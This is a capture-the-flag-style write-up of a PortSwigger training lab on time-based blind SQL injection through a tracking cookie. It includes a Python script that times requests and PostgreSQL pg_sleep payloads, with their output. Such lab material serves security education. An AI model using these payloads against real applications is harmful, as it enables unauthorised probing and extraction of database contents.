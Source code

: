 # Blind SQL injection with time delays | Dec 9, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays), you'll learn: Blind SQL injection with time delays! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a 10 second delay.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-14/images/Pasted%20image%2020221209022117.png)

**Tracking cookie:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-14/images/Pasted%20image%2020221209022147.png)

**In the previous labs, we found that there is a blind SQL injection vulnerability in the tracking cookie.**

**For the sake of automation, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from time import time
import urllib.parse

def main():
	url = 'https://0a940002030b0daec0a4e9a00011002f.web-security-academy.net/'

	payload = """PAYLOAD_HERE"""
	finalPayload = urllib.parse.quote(payload)

	cookie = {
		'session': 'YOUR_SESSIONID',
		'TrackingId': finalPayload
	}

	startTime = time()
	requests.get(url, cookies=cookie)
	endTime = time()
	finalTime = endTime - startTime

	if finalTime >= 10:
		print(f'[+] Payload triggered, slept for {finalTime:.2f}s')
	else:
		print(f'[-] Payload didn\'t trigger, slept for {finalTime:.2f}s')

if __name__ == '__main__':
	main()
```

**To trigger a Time-Based SQL injection, we use the following payloads:** (From [PortSwigger's SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet))

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-14/images/Pasted%20image%2020221209023003.png)

**After some fumbling around, I found PostgreSQL time delay payload works:**
```py
# Payload 1:
payload = """';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--"""

# Payload 2:
payload = """';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--"""
```

```
# Payload 1:
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-14]
└─# python3 exploit.py
[+] Payload triggered, slept for 11.27s

# Payload 2:
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-14]
└─# python3 exploit.py
[-] Payload didn't trigger, slept for 0.92s
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-14/images/Pasted%20image%2020221209023126.png)

# What we've learned:

1. Blind SQL injection with time delays